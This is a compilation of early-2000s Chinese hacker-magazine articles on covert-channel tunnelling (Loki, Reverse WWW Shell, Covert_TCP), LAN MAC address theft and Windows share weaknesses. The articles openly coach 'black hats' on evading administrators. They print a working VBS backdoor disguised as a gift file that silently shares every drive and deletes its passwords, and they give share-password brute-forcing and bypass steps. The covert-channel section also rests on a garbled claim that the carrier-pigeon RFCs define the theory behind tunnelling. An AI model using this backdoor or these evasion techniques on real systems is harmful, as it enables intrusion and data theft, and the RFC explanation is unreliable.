说了这么多，无非就是要说明隐藏通道技术对一个黑帽子的重要性，入侵中被当场抓获可不是闹着玩的。永远别小看你的对手！是否我们从此不能够 HACKING？NO！只要打扫出没的地道战！不开放可疑端口，不造成明显异常网络流量，一样地和你心爱的网站保持联系！这样一来，一般管理员可就傻眼了，即使富有经验的管理员亦很难察觉。

先说说这种技术的理论基础：Transmitted via Carrier Pigeon。RFC 1149、2549 中定义过，高于 TCP 的协议（比如 http、ftp、telnet 等等基于 TCP 的应用协议）将数据传给协议栈，TCP 将对其初始化，但此时并不直接送往 IP 层，而是直接将其送往目的地，在那里信息经过 TCP 层直接送交到等待接收的应用程序中处理。这就是其实现原理，可以类比 SSH 的技术，都是基于这个理论实现的。

下面我们谈谈这个技术的实现方案了：

## 二、ICMP 实现秘密隧道

在没有阻塞 ICMP 数据包的网络中（可以简单地使用 Ping 或者 tracert 来判断目标是否阻塞 ICMP），由于 ICMP 与端口完全无关，所以我们可以使用 ICMP 来挟带我们的通信，这样管理员使用 netstat 或者“进程－端口关联程序”诊断都看不出异常。许多软件都能够实现这一魔术般的技术，Loki 是最棒的一个（通常我们称它为“low-key”），它应用于 linux、bsd 等各类 Unix 系统。这个程序包括了客户端（loki）和服务端（lokid），一个黑帽子只需要在目标上种植下服务端（lokid）。

- `lokid -p -i -v 1`
- `loki -d XXX.XXX.XXX.XXX -p -i -v 1 -t 3`

这样就达成了足够隐秘的通信，只要未阻塞 ICMP 包，这个方法甚至可以穿透防火墙！下面让我们来看看在简单地键入这些命令以及我们的通信过程中发生了什么。

当我们在客户端输入命令时，loki 将我们的命令包裹在 ICMP 包中，发送给服务端 lokid；lokid 拆开这些包，执行命令之后再将响应信息以同样的方式包装进 ICMP 包内返回给客户端。在管理员眼中，这次行动是什么样子呢？

| 黑帽子 | ping | 目标主机 |
|---|---|---|
| loki | ping 响应 | lokid |

图 1

正如图 1 揭示的那样，在管理员或者网络流量监测器角度看来，仅仅是发送了多次再简单不过的 ping 而已，他们很可能压根也想不到眼皮底下貌似无辜的 ICMP 包正在做着黑帽子军团的最佳帮凶，不遗余力地传输着一条又一条邪恶指令，甚至黑帽子们可以简单地设置使用 Blowfish 算法为这一切加密！

> 不过这个技术将使进程清单上多出一个 ROOT 权限的进程，虽然它不关联端口，不和其它传统后门那么显眼，但是若你偏执地追求完美的隐蔽，那么请配合 rootkit 来实现吧！

这个工具亦可以运行 53 端口，伪装为 DNS 查询响应信息，不过这样将开放一个端口，隐秘性下降不少，不推荐。

是的，这样确实足够隐秘，正恰似地道战一样，打对方一个措手不及。不过需要注意的是，许多防火墙默认设置就是阻塞 ICMP，一台 WEB 主机并不总是需要让浏览者不停地 ping 或者 tracert。显然这个时候我们得再想别的办法。

## 三、HTTP 实现秘密隧道

出于安全需要，他们也许不让我们 ping 或者 tracert，这很合理，但是通常情况下他们会禁止自己浏览网页吗？不会！多数情况下没人阻止员工浏览 WWW 网页（如果他们要禁止员工上班时间浏览与工作无关的网站，多半也是被人检查，毕竟禁止 HTTP 对人们的网络生活的影响太大了！）。So，我们为什么不能利用可爱的 HTTP 呢？Reverse WWW Shell（国内未见翻译，我暂且翻译为反向 WWW SHELL）这个工具在技术上实现了这点。

这个程序会把你的机器伪装成真正的 WEB 服务器，还需要真正的网页？当然没那么夸张，只要一个 80 端口就行了！和 ICMP 实现非常类似，Reverse WWW Shell 一样也有服务端和客户端。在你的目标上种上 Reverse WWW Shell 服务端，并在你本地机器上运行 Reverse WWW Shell 客户端，它将打开你机器的 80 端口。Reverse WWW Shell 服务端每隔一段时间就会与你的计算机试图连接一次（默认是 60 秒，不过可以更改，建议更改到 15—30 秒，因为 15—30 秒的时间浏览者刷新页面或者按下一页比较可信）。

| 黑帽子客户端 | <- HTTP 请求 | 目标主机服务端 |
|---|---|---|
| 80 端口开放 | Internet | 通信【随时可开放 1024 以上源端口】 |
|  | 检测系统将认为：内部人员浏览网页，正常行为 Pass! |  |

图 2

正如上图 2 所指出的，一切看上去就如同是内部有人在访问一个 WWW 主机，正常地浏览网页罢了，这个隐秘性可算是相当高了！

## 三、其他协议实现

也许 HTTP 协议实现的地道还不能满足你的需要，因为有的企业或者组织会设定 WEB 访问认证，内部员工只有给出正确的用户名和密码才能通过验证而访问 WWW 站点；也有的企业或者组织会设定仅仅允许员工访问可信任的几个站点，这样基于 HTTP 协议的秘密隧道技术将无用武之地！

> 其实原理中解释的是：基于 TCP/IP 协议的每层协议都满足构造秘密隧道的条件，那么我们可利用的还有 SMTP、TELNET 等等！是的，我们的前辈们早已开发出来满足需要的各种各样的工具：有伪 TELNET 或者 FTP 的，也有利用 SMTP 的传承转发性质的，甚至有 SSH、HTTPS 等！原理基本都一样：只要是在应用层和每一层技术细节上都有不同思路，专业或不专业及有兴趣的同学可以在网上找找。

## 四、用 TCP/IP 包头部传输数据

这个办法不同于前面那些利用一种协议嵌入另一种协议的方法，它是利用 TCP/IP 协议包中为了未来扩展需要而存在的许多空闲空间中填充数据。这个方法主要来自 Craig H. Rowland 的经典论文“Covert Channels in the TCP/IP Protocol Suite”，Craig H. Rowland 也编制了一个工具来实现这个技术，这个工具的名称就是“Covert_TCP”。Covert_TCP 支持在 IP identification、TCP sequence number、TCP acknowledgment number 这三段中填充数据（其实其它段也一样可以填充，不过因为这三个段在传输中一般不改变，稳定性较好）。

“Covert_TCP”虽然也有服务端和客户端之分，不过它可不是基于 C/S 模式的，事实上它的服务端和客户端是一样的，用参数指定使用 TCP/IP 包头的哪个段进行隐秘通信：

- **-ipid**：使用 IP identification
- **-seq**：使用 TCP sequence number
- **-ack**：使用 TCP acknowledgment number

这个模式原理上十分简单，客户端将 ASCII 码直接放入 IP identification 段，每个包携带一个字，服务器端将其取出就可以。

原理：第一个 SYN 包携带第一个字符，它取代了 identification 位，因为它不能合法地建立起三次握手，服务端返回 RESET 包；客户端再次发出 SYN 包，它携带第二个字符；以此类推，并无任何完整的 TCP 三次握手，并且 RESET 包可看作对每个 SYN 包的响应，因此这个方法虽然效率不是很高，但是亦有它可取之处。

这个方式比较复杂，在攻击发起者和目标之间还需要用到一个作为“传输中间人”的 bounce 服务器，如图 3 所示。

| 黑帽子 |  |  | 目标 |
|---|---|---|---|
| Covert_TCP | BOUNCE |  |  |
| 客户端 |  |  | 服务端 |

图 3

STEP 1：客户端发送一个 SYN 包到 bounce 服务器，源地址是目标服务器的地址，目的地址是 bounce 服务器的地址，sequence number 用需要发送的数据的 ASCII 码替换掉。

STEP 2：bounce 服务器收到该包后，若相应端口开放，返回 SYN/ACK 包；若相应端口关闭，返回 RESET，这都是 RFC 文档定义好的规则。也就是说无论端口开放与否，bounce 服务器都将发送一个响应，而由于 SYN 包中的源地址是目的服务器的地址，所以 bounce 服务器的响应包将发送给目的服务器，这样就达成了我们希望的——我们的信息也随之被打包发送到目的服务器了！

STEP 3：服务器端会提取这些 ASCII 字符写入文件。显然这个办法是相当隐秘的，管理员几乎无从追踪这些数据包的来源，因为包的源地址显示来自 bounce 服务器，这样我们的发动传输的机器被很好地隐藏了，而我们使用 bounce 服务器的方式甚至可以是分布式的，想想看这将有多大的影响吧！

## 五、“信息隐藏战”技术前瞻

不仅仅是这些而已！信息隐藏技术还有很多尚未实现的技术或者未公开的技术实现方案，下面我们不妨来看看有些什么。不过在下看前请注意，这里没有特定的软件工具帮助你 HACKING，这里只有一些也许挺“艰深”又不是很“实用”的理论，别老想着天上掉馅饼，自己也好好开动脑子思考吧！

- 1. 图像隐藏技术（当今最成熟的隐藏技术）
  - 1. 位图填充技术
  - 2. 降级技术

将需要隐藏数据直接填充在 BMP 位图之后，不过若不加密则可以使用 WINHEX 等软件打开查找，所以应该把需要隐藏的数据经过加密处理后填充，台湾 Infosec 公司出的 Z-file 工具就是利用这个原理。

图像既是秘密信息又是载体，给定同样尺寸的伪装载体和秘密图像，发送者把伪装载体图像灰度（或色彩值）的 4 个最低 BIT 替换为秘密图像的 4 个最高 BIT。解密时只要逆向一下就可以得到秘密图像，而传输时载体图的质量降低一般肉眼不能鉴别。

> 注：各种隐藏技术层出不穷，其实现方法与实际效果差异很大，管理与检测难度也在不断提升。

- 2. 音频、视频流传输中可以隐藏入 GSM 电话对话而不使信号产生严重失真低质，可能暂时技术不成熟，在此仅仅提一笔吧！
- 3. 操作系统和文件系统信息隐藏技术
  - 1. 操作系统隐藏信道
  - 2. 文件系统中的隐藏文件

在一个操作系统中，运行在高安全级别的进程 1 可以向硬盘写入数据，另一个运行在低安全级别的进程 2 能访问其文件表（也就是前面那个进程创建的文件的名字和大小），这并没有访问数据本身。于是这个情况导致了隐藏信道：进程 1 通过文件名和大小向进程 2 传递信息。

在 WIN95 中，FAT16 格式一般使用 32KB 的簇，也就是按 32KB 给文件分配空间。若某个文件仅仅 2KB，那么还有 30KB 的空间未使用，这样就可以在其中写入需要隐藏的数据。而 NTFS 格式的硬盘中支持文件数据流，使用 NTRK 的 cp 工具可以简单地在任何文件后接上数据流，原文件大小不增加，而数据流并不随前端文件一同运行，这样亦可以很好地隐藏数据。

其实正如地道战可以用水淹来对付一样，针对各种隐藏技术也还是有对付的方法。不过这些针对隐藏的检测工具是否每个管理员都知道并且使用在自己的服务器上呢？这可能很难说了，至少笔者至今尚未在国内主机上发现检测隐藏技术的工具，而国外很多主机上都会有几种检测文件完整性的工具，这种差距导致国内安全现状实在不容乐观。管理员们可要注意了，也许就在你的机器上，黑帽子们正上演着一幕幕地道战！

## 关于局域网盗用 MAC 号码的深入讨论

看了第 7 期《心有猛虎》的文章《论小区宽带中的 MAC 地址盗用》后，我想深入地把问题讨论一下。局域网技术的精髓就是资源共享！现在信息化的发展已经深入我们生活的每个角落，随之而来的就是网络的普及。网络在给我们的生活带来方便的同时，也面临着自身技术不完善所带来的种种安全问题。正如所有的事物都有两面性一样，局域网也是如此。现在回到我们的话题——关于局域网盗用 MAC 号码的讨论。

我们这里说的局域网是指 MAC 号码 + IP 方式下绑定的和不绑定的两种情况。其简单原理介绍在《论小区宽带中的 MAC 地址盗用》中，它们的区别在于绑定后你的 IP 是固定的，在具体实现上要在软件上多点投资。在绑定 IP 的情况下，我们在局域网中访问另一台计算机时，网关会根据 IP 找到匹配的 MAC 号码，然后根据 MAC 找到目标机器，再对应 IP。

这里涉及到 ARP 协议的问题，该协议属于链路层的协议，是用来转化 32 位的 IP 地址和 48 位的 MAC 地址。于是安全问题就出在这里；如 ARP 欺骗造成 IP 冲突等影响用户网络的使用，更可怕的就是 MAC 盗用。在 MAC 不绑定 IP 的情况下，只要我们有合法 MAC 号码，再设置好局域网对应的 TCP/IP 协议规则，即 IP 地址、子网掩码、网关和 DNS 服务器，那么你就可以上 Internet 了；绑定 IP 情况下就是在改 IP 地址时记住要对应的 IP，而不是网段内随便的一个 IP。

> 《论小区宽带中的 MAC 地址盗用》作者提供了一个完全工具版的方法来获得 MAC 和改自己的 MAC，我觉得作为一个学习者还是自己动手比较好。

原理很简单：先在自己的局域网内找一个开着 139 的 Win 系列的计算机，然后查到 MAC 号，最后改一下自己机子上的 MAC 和 IP。

- 我们可以这样做：
- 1、打开 DOS，输入 `net view`，回车。看到什么了？



对了，这些就是这个局域网内的机器了，OK！行动。

- 图 2、`ping best`（查找 IP）



## 黑客X档案2002-2003年合订本

# 黑客研究院

```text
Ping statistics for 168.58.*.*
Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

看到 IP 了吗？

图 3：nbtstat -A 168.58.*.*

```text
NetBIOS Remote Machine Name Table

Name              Type      Status
-----------------------------------
BEST              <00>      UNIQUE      Registered
MTSCOMPONENTS     <00>      GROUP       Registered
BEST              <20>      UNIQUE      Registered
MTSCOMPONENTS     <1E>      GROUP       Registered

MAC Address = 00-50-BA-0A-E0-E4
```

呵呵，看到什么了，对！MAC Address，这样几个 DOS 命令就把它搞定了。

图 4：修改 MAC 号，这是最关键的步骤，我们从注册表入手。

> 不可万不得已不要使用可以改 MAC 地址的程序！你做一个没有道义的黑客，而一味地盗用别人的 IP 是不道德的！本文仅提供这一技术爱好者交流的范围，对于应用本技术产生的一切后果，本人概不负责！

网卡真正的 MAC 地址是在 EPROM 中，可以通过专门的程序修改，不少网卡的厂商都能提供。比如 PCI-RTL8029，便可到 Realtek 公司的网站下载一个修改 EPROM 的小程序。

在 Win9x 和 WinNT 3.5、4.0 下，网卡驱动程序按 NDIS 规范与操作系统通信。MAC 地址被存储在操作系统的某存储单元内，这时可以通过修改该内容达到目的，而不用修改你的 EPROM 内容。

- 1. 先打开注册表，找到 `HKEY_LOCAL_MACHINE\system\CurrentControlSet\services\classes\net\`，在 `0000`、`0001`、`0002` 等下，观察 `DriverDesc` 内容为你要修改的网卡的描述。
- 2. 在其下，添加一个字符串，名为 `Network Address`，值设为你要的 MAC 地址，要连续写，如 `004040404040`。
- 3. 找到以下 `NDI\params`，添加一项 `Network Address` 的主键，在该主键下添加名为 `default` 的字符串，其值写你要设的 MAC 地址，要连续地写。
- 4. 在 `NetworkAddress` 的主键下继续添加名为 `ParamDesc` 的字符串，其作用为指定 `Network Address` 主键的描述，其值可为“MAC Address”，这样以后打开网络邻居的属性，双击相应网卡项会发现有一个高级设置，其下存在 `MAC Address` 的选项，就是你在注册表中添加的新项 `Network Address`，以后只要在此修改 MAC 地址就可以了。
- 5. 关闭注册表，重新启动，你的网卡地址已改。打开网络邻居的属性，双击相应网卡项会发现有一个 `MAC Address` 的高级设置项，用于直接修改 MAC 地址。

一些网卡如 D-Link 的 DE220 在安装时，会自动在注册表中加入这些项目，你只需修改键值就可以了。1、2 步骤用于修改当前（下一次启动时）MAC 地址。3、4 步骤用于在网络属性的网卡属性中添加相应高级属性。

请记住我们的目的是学习，不是真的要盗用！这里提到的 MAC 的知识有不清楚的读者可以参考一些资料或者访问我们的论坛，我就不再说了。

以上这个方法适用于 Win 系列。当然，如果用一些工具的话，过程可以更加简单。比如《论小区宽带中的 MAC 地址盗用》中提到的一些工具，这些小工具在网络上到处都是，其实只要自己多动动脑子，这些功能完全可以写个批处理来解决。

现在我们来分析一下盗用 MAC 这个问题，当你改完了之后上网，必然会因为一个网段内出现两个相同的 MAC 和 IP 而产生一些问题。比如在线游戏玩不了，老是掉线等——但主人知道后，肯定就要去查你了，所以首先你要把你自己的 139 关了，要不然不通过网关就可以找到你哦！有人说可以在主人下线的时候上，但是谁都会因为流量突然变大而奇怪。如果不是靠流量算钱的，那就……

从可行性上来说这种方法有一定的实用性，但是一个前提就是，有人的电脑没做安全设置开着 139。说来说去还是那句话，都是 NetBIOS 惹的祸，但这个东西既然存在了，所以提醒一下局域网的用户做好安全防范是很必要的。其实无论对于盗用者还是被盗用者，关闭你的 NetBIOS 都是很重要的。

如果哪一天用户突然感觉上网速度很慢，玩在线游戏老是掉线等，感觉网络有问题请找网管；很可能你的 IP 正在被某个人共享着呢！

有人会问如何关闭 139 呢？我说一下吧：

- ◈ 对于 Win9x：运行 `RegEdit.exe`，查找串“vnetbios”，找到后再选择“查找下一个”，将找到像“blablbah\\VxD\\VNETBIOS\\”的串，删除“VNETBIOS”项即可。（操作一定要谨慎，误操作可能导致系统崩溃）

另外，关掉 139 端口后将无法共享文件和打印功能。很不爽，不过如果平常不用共享和打印机还是删了为好！

- ◈ 对于 WinNT：在 Windows NT 下你可以取消 NetBIOS 与 TCP/IP 协议的绑定。控制面板→网络→NetBIOS 接口→WINS 客户端（TCP/IP）→禁用，然后确定，再重新启动。这样 NT 的计算机名和工作组名也隐藏了，不过会造成基于 NetBIOS 的一些命令无法使用，如 net 等。

- ◈ 对于 Win2000：选中网络邻居→右键→本地连接→Internet 协议（TCP/IP）→属性→高级→选项→TCP/IP 筛选→在“只允许”中填入除了 139 外的端口。无法共享文件和打印功能。XP 的用户不存在这个方面的问题，555~好幸福呀，可惜我的电脑不能装 XP。

- ◈ 当然还有最方便的方法：选择一条天网的空规则，数据包方向选择“接收”，对方 IP 地址选择“任何”，协议 TCP，本地端口“139 到 139”，对方端口“0 到 0”，标志位在“SYN 标志”上打勾，动作“拦截”。然后把这条规则勾上让它生效，保存即可。

从我个人意见上讲安全意识很重要，所以用户自己要做好安全设置。但是从社会角度讲，这个就是局域网服务的提供者的事了，他们完全可以基于网络服务上的方法改变安全状况，比如现在一些大学的校园网就采用了一种安全认证，原理就是在 MAC 绑定 IP 后再绑定用户和密码！如果说很容易就可以得到 MAC 号码的话，那么基于数据库和加密技术的安全认证至少可以降低 90% 的盗用事件。当然，个人电脑被种植木马、网络数据传输被 Sniff 除外，而事实上这种安全认证也并不需要下多少工夫和钱。

以上是我在看了心档君泪人的文章《论小区宽带中的 MAC 地址盗用》后的感想，算是从攻防方面做点分析，提供了一些看法。因为我觉得对于居民区宽带网，如果这个问题出现，是一种很不好的现象，希望能得到大家的关注。

## 关于共享的几个错误认识

在网络入侵中，通过共享入侵是很常见的一种，虽然简单，但效果非常好。不过，本文说的不是共享入侵，而是关于共享的几个错误认识。

龙剑客

### 错误认识一：加上 $ 符号就看不见隐藏的目录了

大家知道，把一个目录设置为共享的时候，如果在共享名后面加上 $ 符号，那么这个目录将变成一个隐藏的共享目录，许多人认为这样对方的机器上就会看不见这个共享目录。其实，这只是微软自欺欺人的做法，在网络层操作系统其实是可以看到共享名的，只是在操作系统上层才把“$”处理成隐藏。而对于其它操作系统，比如说 Linux，用 `smb use \\target` 就可以看到目标机上的全部共享资源（包括隐藏资源）。要进入你的共享目录简直易如反掌。要想访问加有“$”符号的共享，只要知道共享目录名，然后只要在这个目录后面加上 $ 符号就可以了。

### 错误认识二：加上“$”共享就能绝对安全了

众所周知，在 Windows 9x 中设置共享时，只要在共享名后加上“$”这个符号，就可使共享隐藏。比如，我们给一个名为 share 的计算机的 C 盘设置共享时，只要将其共享名设为 C$。这样我们将看不到被共享的 C 盘，只有通过输入该共享的确切路径才能访问此共享。不过我们只要将 `C:\Windows\system` 文件夹中的 `msnp32.dll` 文件稍做修改，就可以让 Windows 显示出隐藏的共享。

复制 `msnp32.dll` 到 C 盘下并改名为 `msnp32`（在 Windows 下 `msnp32.dll` 文件会被调用，所以不能直接修改此文件），运行 UltraEdit 等十六进制文件编辑器打开 `msnp32`，点击“搜索”→“查找”，打开“查找”对话框，在“查找什么”栏中输入“24 56 E8 17”（位于偏移地址 `00003190～000031A0` 处），找到后将“24”改为“00”，保存修改结果，关闭 UltraEdit。重启计算机进入 DOS 模式，在命令提示符下输入：

```text
copy c:\msnp32 c:\Windows\system\msnp32.dll
```

重启进入 Windows，就可以让 Windows 显示出隐藏的共享。

### 错误认识三：只要给共享设置个复杂点的密码就会绝对安全

举个例子，有些朋友为了方便，会在 Windows 的“网络”属性→“配置”当中的“文件及打印共享”项中，把“允许其他用户访问我的文件”和“允许其他计算机使用我的打印机”前面打上勾，如图 1 所示，然后在硬盘“共享”里面的“根据密码访问”设置一个只读或完全访问的密码，以为这样就可以万无一失了。



其实，有心人只要写一个 VBS 小程序或直接利用共享端口，使你在不知晓的情况下运行（比方说加载在网页中），这样就可以使你的 Windows 系统不受密码的保护，完全暴露在网络上，如此一来，别人就可以在你的计算机里随意阅读、增删文件，为所欲为了……

以下是一个类似共享后门的 VBS 文件，将其存为 VBS 为后缀名的文件，如：`QQ靓号赠有缘人.htm.vbs`，之所以起这么个名字完全是为了隐藏，这样更具有欺骗性，自己运行一下试试。重启你的计算机后，你会发现你的软盘 A、硬盘（或光驱）C、D、E 和 F 都已全部共享！如果你连入网络，别人可以用网络工具查找计算机名为“Share”的计算机，进入你的计算机，你的资源可以让别人任意使用了，而你却还不知道！更可怕的是你在网络属性中看不到自己的硬盘被共享了！因为我们把“Flags”的键值改成“302”后就可以秘密共享，下面我们来看看这个文件的源代码（“//”后面为注释）：

```text
On error resume next  // 假如出现错误，则跳到下一语句继续

Set wscr=CreateObject("wscript.shell")  // 生成 wscript.shell 模块供下面 wscr.reg-write

'HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\ComputerName\ComputerName\ComputerName'
'Share'  // 将计算机名修改为 Share
'HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\VxD\VNETSUP\ComputerName'
'Share'  // 将计算机名修改为 Share

for i=1 to 5                  // 循环 5 次
if i=1 then                   // 第一次循环
DriveName='A'                 // 驱动器名为 A
else if i=2 then              // 第二次循环
DriveName='C'                 // 驱动器名为 C
else if i=3 then              // 第三次循环
DriveName='D'                 // 驱动器名为 D
else if i=4 then              // 第四次循环
DriveName='E'                 // 驱动器名为 E
else if i=5 then              // 第五次循环
DriveName='F'                 // 驱动器名为 F
end if
end if
end if
end if
end if

wscr.regwrite 'HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan\'&DriveName&'\Flags',302,'REG_DWORD'  // 共享名为 &DriveName&
wscr.regDelete 'HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan\'&DriveName&'\Parm1enc'  // 删除驱动器完全访问密码
wscr.regDelete 'HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan\'&DriveName&'\Parm2enc'  // 删除驱动器只读密码
wscr.regwrite "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan\"&DriveName&"\Path",DriveName&":\\" // 设置访问路径
wscr.regwrite "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan\"&DriveName&"\Remark","Share" // 设置驱动器共享注释
wscr.regwrite "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan\"&DriveName&"\Type",0,"REG_DWORD" // 设置驱动器类型
```

共享分类是由 `Flags` 标志决定的，它的键值决定了共享目录的类型，当 `Flags=0x302` 时，重新启动系统，目录共享标志消失，表面上看没有共享（有共享标志的硬盘或目录在上面有“小手”标志），实际上该目录正处于完全共享状态。共享陷阱就是利用了此特性。

### 错误认识四：只要密码够复杂，共享密码就能避免被破解

其实，对于设置了访问密码的共享主机，除了用共享蟑螂之类的程序可以使你的密码失效外，暴力破解也可以破解共享密码。你可以在 MS-DOS 下输入如下的命令：`nbtstat -A IP`，记住其中的 NetBIOS name，然后从 `http://www.cners.com/tools/PQwak.exe` 下载 PQwak 软件，运行 PQwak，出现如图 2 所示窗口。



图 2

在“NBNAME”栏中输入 `nbtstat` 命令中显示的 NetBIOS name，在“SHARE”栏中输入受密码保护的共享文件夹名，在“IP”栏里输入那个需要访问密码的主机的 IP 地址，最后设置“DELAY”值，此时就要看你的连接方式了，如果你用的是 56K 的小猫，那么建议你把 DELAY 设置在 1000—2000 之间；如果你用 ADSL 的话，建议输入 800—900 之间一值。现在开始祈祷，因为你是要花费一番功夫才有可能破解出密码，特别是复杂密码更花费很长时间。如果对方不是专线或长时间上网的用户，在你做了那么多努力后，他却下线了，岂不是很令人恼火？

PQwak 运算完成后，返回到受密码保护的共享文件夹，双击它，当提示要网络密码时，将 PQwak 里的密码拷贝下来，再粘贴到密码对话框，然后你就可以……

> 注意：如果你运行 PQwak 后出现“the password is a .” or “the password is wrong”，请将 DELAY 数值调高。

另外，对于 Windows 95/98 操作系统，共享目录密码验证存在有漏洞，使用经修改的 `Vredir.vxd` 驱动文件，可以让密码验证只校验第一字节而被破解。那样再复杂的密码也没有用！

> 注意：方法是，将修改后的 `Vredir.vxd` 文件复制到 `C:\Windows\system` 目录下覆盖原文件，重新启动机器。

之后你进入有密码的共享目录，弹出来提示输入密码窗口时不用敲密码，只要按住回车键不放，直到进入此目录。注意出现密码不对的提示时，你只要按住回车键不放，就选择了“确定”。一般密码都是在字符 `0x20` 到 `0x80` 之间，因此最多试 96 次就可以了。不过这种方法对 Windows NT 机器不起作用。

### 小提示

- 1. `Vredir.vxd` 这个文件是 Windows 的重要网络组件，它同时也负责共享密码的处理。
- 2. 打开注册表，共享就在这里：`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan\C$`。在硬盘的右边，你可以看到下面的内容：
  - `Flags"=dword:00000302` // 共享标志
  - `Parm1enc"=hex:00000000` // 共享目录的完全共享密码
  - `Parm2enc"=hex:00000000` // 共享目录的只读访问密码
  - `Path"="D:\\"` // 共享驱动器的路径，就是 C、D 等
  - `Remark"="你的硬盘被共享了！"` // 用户共享说明，可以写入一些注释信息，比如“你的硬盘被共享了”
  - `Type"=dword:00000000` // 类型属性
  - `Parm1enc`、`Parm2enc` 属性项就是加密的密码。

共享密码保存在注册表中，系统在加密时采用了 8 位密码分别与“35 9A 4B A6 53 A9 D4 6A”进行异或运算，要想求出密码再进行一次异或运算，然后查 ASCII 表可得出目录密码。由此，大家不难看出，共享密码是非常脆弱的，只要有人有机会接触你的电脑（不见得是物理接触），你的共享密码就不保了。

### 错误认识五：Windows NT/2000 中默认共享设置很秘密

这也不对，用过 Windows NT 的朋友一定知道，默认的情况下，硬盘中所有逻辑分区都是被设置成共享的，所以有必要关闭这类不用的共享。首先，把已有的 IPC$ 和默认共享都删除，输入如下：

```text
net share ipc$ /del
net share admin$ /del
net share c$ /del
```

然后，用记事本编辑如下内容的注册表文件，保存为任意名字的 `.Reg` 文件，使用时双击即可关闭默认共享和 IPC$。

```text
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters]
"AutoShareServer"=dword:00000000
"AutoShareWks"=dword:00000000

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa]
"RestrictAnonymous"=dword:00000001
```

### 小提示

键值 `AutoShareServer` 对应 C$、D$ 一类的默认共享；键值 `AutoShareWks` 对应 ADMIN$ 这类共享；键值 `RestrictAnonymous` 对应 IPC$ 空连接。

